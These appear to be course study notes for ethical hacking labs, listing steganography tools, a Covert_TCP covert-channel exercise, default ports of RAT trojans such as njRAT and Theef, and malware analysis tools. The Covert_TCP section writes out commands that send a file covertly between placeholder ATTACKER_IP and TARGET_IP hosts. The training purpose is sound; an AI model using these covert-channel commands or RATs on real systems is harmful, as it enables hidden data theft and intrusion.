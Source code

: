 ### Lab3-Task5: Image steganography using OpenStego and StegOnline (Page 208)
 - **OpenStego**: Hide/Extract
 - **StegOnline**: https://stegonline.georgeom.net

### Lab3-Task9: Covert Channels using Covert_TCP (Page 266)

- **Attacker:**
  - Create a file with a secret: echo "Secret"->message.txt
  - Copy and paste **covert_tcp.c**
  - Compile: **cc -o covert_tcp covert_tcp.c**
- **Target:**
  - **tcpdump -nvvx port 8888 -I lo**
  - Copy and paste **covert_tcp.c**
  - Compile: **cc -o covert_tcp covert_tcp.c**
  - **./covert_tcp -dest TARGET_IP -source ATTACKER_IP -source_port 9999 -dest_port 8888 -server -file /home/ubuntu/Desktop/Receive/receive.txt**
  - **Tcpdump captures no packets**
- **Attacker**
  - **./covert_tcp -dest TARGET_IP -source ATTACKER_IP -source_port 8888 -dest_port 9999 -file /home/attacker/Desktop/send/message.txt**
  - Wireshark (message string being send in individual packet)

## Module 07: Malware Threat

### Lab1-Task1: Gain control over a victim machine using njRAT RAT Trojan (Page 319)
- **njRAT**
  - Default port: 5552

- **ProRAT**
  - Default port: 5110
 
### Lab1-Task3: Create a Trojan server ussing Theef RAT Trojan (Page 347)
- **Theef RAT**
  - Default port: 9871 or 6703
 
### Lab3-Task2: Perform a string search using BinText (Page 378)
- **BinText**
  - Extract text from executable

### Lab3-Task4: Analyze File using Detect It Easy (DIE) (Page 384)
- **DIE**
  - File Entry point, entropy, hash
 
## Module 08: Sniffing
